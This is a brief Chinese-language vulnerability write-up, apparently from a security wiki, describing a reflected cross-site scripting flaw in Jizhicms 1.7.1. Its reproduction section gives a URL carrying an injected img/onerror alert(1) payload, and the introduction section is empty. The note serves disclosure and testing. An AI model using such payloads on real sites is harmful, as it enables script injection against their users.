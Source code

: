 Jizhicms 1.7.1 反射型xss
========================

一、漏洞简介
------------

二、漏洞影响
------------

Jizhicms 1.7.1

三、复现过程
------------

    https://wiki.0-sec.org/img/1'%3Cimg%20src=1%20onerror=alert(1)%3E--

![9.png](resource/Jizhicms1.7.1反射型xss/media/rId24.png)

四、参考链接
------------

> https://xz.aliyun.com/t/7775\#toc-2
